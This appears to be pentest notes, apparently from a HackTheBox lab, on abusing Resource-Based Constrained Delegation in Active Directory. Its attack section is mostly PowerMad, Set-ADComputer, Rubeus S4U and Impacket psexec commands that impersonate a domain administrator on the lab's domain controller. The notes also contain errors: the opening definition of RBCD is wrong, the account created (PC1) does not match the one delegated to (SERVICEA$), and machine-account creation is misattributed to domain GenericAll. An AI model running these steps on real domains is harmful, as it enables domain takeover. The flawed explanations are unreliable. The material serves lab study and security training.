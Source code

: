 
## Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

## Configuring RBCD

**RBCD** is configured by setting the `**msDS-AllowedToActOnBehalfOfOtherIdentity**` attribute. This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.

To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as `GenericAll`, `GenericWrite`, and `WriteDACL`. This access is necessary to modify the Resource-Based Constrained Delegation (RBCD) settings on the targeted resource.

## RBCD Attack Requirements and Flow

## Attack Requirements

- Obtain access to an account with Write permissions to modify a computer object’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting permissions to the compromised account.
- Control an object with a Service Principal Name (SPN). This could involve using an existing computer where we hold administrator privileges or creating a fake computer object if necessary.

## Attack Steps

The steps below summarize the RBCD attack to understand the attack flow:

1. The attacker gains access to a domain user account that can add computers to the domain. By default, domain users are part of the Authenticated Users group, allowing them to add up to 10 computers to the domain.

**_Note:_** _Remember, it is not always the case; sometimes administrators will set the_ `_ms-ds-machineaccountquota_` _attribute to 0 to prevent these attacks.)_

2. The compromised user must have Write privileges over the targeted computer. Required permissions include `GenericAll`, `GenericWrite`, or `WriteDACL`.

3. The attacker modifies the target computer’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify a service account they control.

4. The attacker requests a service ticket to impersonate a high-privileged user, such as a domain admin, to access the target computer.

5. Using the issued ticket, the attacker gains access to the target computer.
## Tools Required

#### 1. [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
#### 2. [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
#### 3. [Powershell AD module](https://github.com/samratashok/ADModule.git)
#### 4. [Impacket Tools](https://github.com/fortra/impacket)
#### 5. [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

### Chaining it together

First, we leverage [[#1. [PowerMad](https //github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) |PowerMad]] to create a new machine account using our `GenericAll` privileges on the domain.

```
. .\Powermad.ps1
New-MachineAccount -MachineAccount PC1 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Now we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
